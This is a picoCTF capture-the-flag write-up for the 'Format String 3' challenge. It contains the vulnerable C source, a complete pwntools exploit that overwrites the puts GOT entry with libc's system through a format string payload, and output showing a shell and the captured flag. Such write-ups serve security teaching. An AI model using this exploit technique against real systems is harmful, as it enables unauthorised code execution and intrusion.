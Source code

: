 ### Format String 3 Writeup

Given binary, source code, libc, and interpreter.

The source code is as follows:

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
    puts("Howdy gamers!");
    printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
    char *all_strings[MAX_STRINGS] = {NULL};
    char buf[1024] = {'\0'};

    setup();
    hello();    

    fgets(buf, 1024, stdin);    
    printf(buf);

    puts(normal_string);

    return 0;
}
```

Since `printf(buf)` is used, it can be exploited using a Format String Bug (FSB).

Additionally, because `puts(normal_string)` (with `normal_string` containing "/bin/sh") is executed, if we replace the `puts` address in the GOT with the address of the `system` function, we can get a shell and retrieve the flag.

For this, we need 3 pieces of information:
1. Offset when `printf` is executed
2. Address of `puts` in the GOT
3. Address of the `system` function in libc

The offset when `printf` is executed can be found by inputting `%n$p` into the program, which shows that the offset is 38:

```
$ nc rhea.picoctf.net 49961
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f58edbd73f0
%38$p
0xa7024383325
/bin/sh
```

The address of `puts` in the GOT can be found using gdb, which shows 0x401080:

```
(gdb) p puts
$1 = {<text variable, no debug info>} 0x401080 <puts@plt>
```

The address of the `system` function in libc can change every time, so we need to calculate the difference with `setvbuf` in libc, and then add it to the `setvbuf` address provided by the instance.

This can be implemented using pwntools as follows:

```python
from pwn import *
from pwnlib.fmtstr import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        if len(sys.argv) < 3:
            log.error("Please provide the server address and port as arguments.")
            sys.exit(1)
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

context.arch='amd64'

exe = ELF('./format-string-3')
got_puts = exe.got['puts']
libc = ELF('./libc.so.6')
libc_system = libc.symbols['system']
print(f'libc system address: {hex(libc_system)}')
libc_setvbuf = libc.symbols['setvbuf']
print(f'libc setvbuf address: {hex(libc_setvbuf)}')
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

m = io.recvregex(b'libc: 0x([0-9a-f]+)\n', capture=True)
matched_string = m.group(0).decode()
log.info(f'matched_string: {matched_string}')

loaded_libc_setvbuf = int(m.group(1).decode(), 16)
log.info(f'loaded libc setvbuf found: {hex(loaded_libc_setvbuf)}')

loaded_libc_system = loaded_libc_setvbuf + (libc_system - libc_setvbuf)
log.info(f'loaded libc system: {hex(loaded_libc_system)}')

format_string = fmtstr_payload(38, {got_puts:loaded_libc_system}, numbwritten=0, write_size='byte')
# Exploit

io.sendline(format_string)

# Get flag/shell
io.interactive()
```

When executed, this script sends the payload to the instance and activates the shell:

```
$ python flag.py rhea.picoctf.net 49961
...
$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_cf6cb591}
```

Thankyou <3